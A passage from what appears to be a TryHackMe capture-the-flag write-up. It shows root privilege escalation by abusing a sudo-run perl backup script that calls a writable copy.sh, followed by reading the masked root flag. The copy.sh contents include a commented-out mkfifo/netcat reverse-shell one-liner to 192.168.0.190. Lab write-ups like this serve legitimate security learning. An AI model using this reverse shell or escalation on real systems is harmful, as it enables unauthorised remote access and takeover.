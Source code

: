     ```bash
    root@THM-Chal:/etc# cat copy.sh 
    whoami
    bash -p
    # rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
    www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl
    root
    root@THM-Chal:/etc# whoami
    root
    ```

    * Great, we are root
*   get root.txt flag

    ```bash
    root@THM-Chal:/etc# cd 
    root@THM-Chal:~# ls
    root.txt
    root@THM-Chal:~# cat root.txt
    THM{663*****************************}
    ```

***
